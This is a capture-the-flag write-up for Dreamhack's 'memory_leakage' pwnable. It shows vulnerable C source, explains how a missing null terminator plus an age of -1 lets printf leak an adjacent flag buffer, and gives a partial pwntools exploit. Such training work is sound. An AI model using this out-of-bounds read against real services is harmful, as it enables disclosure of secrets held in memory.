

# 🚩 Beginner - memory_leakage

**Category:** Pwnable
**Platform:** Dreamhack

**Description:**
This problem gives the binary and source code of the service (memory_stored) running on the server.
Find a vulnerability in the program and exploit it to read the “flag” file.
You can earn points by verifying the contents of the “flag” file on the Wargame site.
The format of the flag is DH {...} That's it.

---

## 🛠️ Step-by-Step Solution

### Step 1 : Analyze 
First, let's analyze the provided C source code:
```c
int main()
{
        struct my_page my_page;
        char flag_buf[56];
        int idx;

        memset(flag_buf, 0, sizeof(flag_buf));

        initialize();

        while(1) {
                printf("1. Join\n");
                printf("2. Print information\n");
                printf("3. GIVE ME FLAG!\n");
                printf("> ");
                scanf("%d", &idx);
                switch(idx) {
                        case 1:
                                printf("Name: ");
                                read(0, my_page.name, sizeof(my_page.name));

                                printf("Age: ");
                                scanf("%d", &my_page.age);
                                break;
                        case 2:
                                printf("Name: %s\n", my_page.name);
                                printf("Age: %d\n", my_page.age);
                                break;
                        case 3:
                                fp = fopen("/flag", "r");
                                fread(flag_buf, 1, 56, fp);
                                break;
                        default:
                                break;
                }
        }

}
```
The program provides a menu with 3 options and our goal is to leak the content of the flag_buf

**🔍 VULNERABILITY ANALYSIS:**
The core vulnerability here is a Missing Null-Terminator leading to an Out-of-Bounds (OOB) Read.

Let's look at the memory layout and the functions used:

**Memory Layout**: On the stack, we have the `flag_buf[56]`, followed closely by the my_page struct which contains `char name[16]` and `int age`.

**Missing Null-Terminator:** In Option 1, the program uses `read(0, my_page.name, sizeof(my_page.name))` to take user input. The `read()` function reads exactly 16 bytes but does not automatically append a null-terminator (`\x00`) at the end of the string. If we fill all 16 bytes of the name array, there will be no `\x00` to mark the end of the string.

**The Trap (age variable):** In Option 2, the program uses `printf("Name: %s\n", my_page.name)`. The `%s` format specifier prints characters sequentially from memory until it encounters a `\x00` byte.

If we fill `name[16]` and input a normal number for age (like 0, 1, or 2), the hexadecimal representation in memory will contain null bytes (e.g., 0x00000001), which immediately stops the printf function.

**The Bypass:** If we input `-1` for age, it is represented as 0xFFFFFFFF in memory—containing zero null bytes!

Because name has no null-terminator, and age (-1) also has no null bytes, printf will read entirely out of bounds, bleeding past the my_page struct and directly into the adjacent flag_buf memory space, leaking the flag to standard output.
### Step 2 : Exploit
Below is the exploit script (using the `pwntools` library):
```python
io = start()

# 1. Load flag into memory
io.sendlineafter(b"> ", b"3")

# 2. Setup payload for Out-of-Bounds Read
payload = b"A" * 16
io.sendlineafter(b"> ", b"1") # Use sendlineafter because scanf() requires \n
io.sendafter(b"Name: ", payload)  # Use sendafter because read() doesn't need \n
io.sendlineafter(b"Age: ", b"-1")

# 3. Trigger the memory leak
io.sendlineafter(b"> ", b"2")

# Interact to view the leaked flag
io.interactive()
```
→ **Note:** This snippet only demonstrates the core exploit logic. You need to write the complete script yourself to make it run (or use a `pwn` template like I did:33).

**🎯 PROOF OF CONCEPT:**
Executing the script successfully fills the name buffer, bypasses the null-byte stoppage at the age variable, and forces printf to keep reading down the stack. The contents of flag_buf are printed directly to the terminal, revealing the DH{...} flag : 


